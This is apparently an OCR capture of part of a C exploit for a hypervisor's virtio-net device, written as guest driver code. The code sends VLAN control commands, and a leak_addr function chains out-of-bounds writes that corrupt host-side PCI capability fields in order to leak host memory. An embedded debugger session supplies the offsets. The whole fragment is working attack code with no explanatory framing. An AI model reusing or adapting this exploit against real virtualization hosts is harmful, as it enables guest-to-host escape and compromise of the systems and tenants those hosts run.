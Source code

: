 ```c
    for(i = 0; i < nbits; i++)
    {
        if (value & (1ULL << i))
            cmd = VIRTIONET_CTRL_VLAN_ADD;
        else
            cmd = VIRTIONET_CTRL_VLAN_DEL;

        // Setting the control header
        dev->ctrl->hdr.class = VIRTIONET_CTRL_VLAN;
        dev->ctrl->hdr.cmd   = cmd;
        dev->ctrl->vlanId    = cpu_to_virtio16(vdev, offset * 8 + i);

        // Initialize scatterlist
        sg_init_one(&sgs[0], dev->ctrl, sizeof(struct command_entry) + 4);
        psgs[0] = &sgs[0];

        // Add the buffer to the control queue
        virtqueue_add_sgs(dev->vqueues[2], psgs, 1, 0, dev, GFP_KERNEL);

        // Kick queue to process the command
        virtqueue_kick(dev->vqueues[2]);

        // Wait for the command to be processed
        while (!virtqueue_get_buf(dev->vqueues[2], &len) && !virtqueue_is_broken(dev->vqueues[2]))
        {
            cpu_relax();
        }
    }
}

static void leak_addr(struct virtio_device *vdev, struct dp_xpl *dev, uint32_t uOffset, uint32_t uLength, uint16_t uVirtqSelect)
{

    oob_write(dev, vdev, 0x00, pCritSectRoR3 + uPciCfgDataOff_off - aVlanFilter_off, 8);
    oob_write(dev, vdev, uVirtqSelect, pCritSectRoR3 + uVirtqSelect_off - aVlanFilter_off, 16);

    /*
    * gef>  p pVirtio
    * $65 = (PVIRTIOCORE) 0x7fffb00561c0
    * 
    * gef>  p &pVirtioCC->pPciCfgCap->pciCap
    * $66 = (virtio_pci_cap *) 0x7fffb00564c0
    * 
    * gef>  p/x 0x7fffb00564c0 - 0x7fffb00561c0
    * $67 = 0x300
    */

    oob_write(dev, vdev, 0xff, pCritSectRoR3 + 0x300 + uCapVndr_off - aVlanFilter_off, 8);
    oob_write(dev, vdev, VIRTIO_REGION_PCI_CAP, pCritSectRoR3 + 0x300 + uBar_off - aVlanFilter_off, 8);
    oob_write(dev, vdev, uOffset, pCritSectRoR3 + 0x300 + uOffset_off - aVlanFilter_off, 8);
    oob_write(dev, vdev, uLength, pCritSectRoR3 + 0x300 + uLength_off - aVlanFilter_off, 8);

    oob_write(dev, vdev, 0x00, pCritSectRoR3 + LocDeviceCap_off + LocDeviceCap_offMmio_off - aVlanFilter_off, 16);
    oob_write(dev, vdev, 0x00, pCritSectRoR3 + LocDeviceCap_off + LocDeviceCap_cbMmio_off - aVlanFilter_off, 16);

    oob_write(dev, vdev, 0x00, pCritSectRoR3 + LocCommonCfgCap_off + LocCommonCfgCap_off_offMmio - aVlanFilter_off, 16);
    oob_write(dev, vdev, 0xff, pCritSectRoR3 + LocCommonCfgCap_off + LocCommonCfgCap_off_cbMmio - aVlanFilter_off, 16);
```